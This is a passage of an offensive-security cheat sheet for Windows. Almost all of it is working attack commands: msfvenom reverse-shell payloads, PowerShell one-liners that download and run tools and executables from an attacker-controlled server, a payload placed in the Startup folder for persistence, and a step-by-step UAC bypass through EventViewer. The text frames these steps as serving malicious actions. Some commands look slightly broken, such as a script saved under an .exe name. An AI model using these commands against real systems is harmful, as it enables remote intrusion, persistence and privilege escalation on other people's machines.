 ```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o ok.exe
```

- Exploitation - Windows

```powershell
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile ok.exe)
move ok.exe “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”
logoff
```

### Bypass UAC

After obtaining a reverse shell on a machine with a local administrator user, it may be necessary to bypass User Account Control (UAC) to perform specific malicious actions, such as persistently installing malware, modifying security settings, or exploiting system vulnerabilities. This can be done through specialized techniques and tools designed to bypass the restrictions imposed by UAC.
https://decoder.cloud/2017/02/03/bypassing-uac-from-a-remote-powershell-and-escalting-to-system/

#### EventViewer

- Step 1 - Kali

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -f exe > ok.exe
```

- Step 2 - Win Owned  

```powershell
cd C:\Windows\tasks
iwr -uri 192.168.119.139:805/shell.exe -Outfile shell.exe
Start-Process -NoNewWindow -FilePath C:\Windows\Tasks\shell.exe
```

- Step 3 - Win Owned  

```powershell
iwr -uri 192.168.119.139:805/powerup.ps1 -Outfile powerup.ps1
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

`[+] Run a BypassUAC attack to elevate privileges to admin.`

- Step 4 -Kali

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=8445 -f exe > ok.exe
```

- Step 5 - Win Owned

```powershell
wget <ip>:<port>/Invoke-EventViewer.ps1 -O Invoke-EventViewer.ps1
. .\Invoke-EventViewer.ps1
Invoke-EventViewer cmd.exe /c "C:\Windows\tasks\shell2.exe"
Invoke-EventViewer C:\Windows\tasks\shell2.exe
```
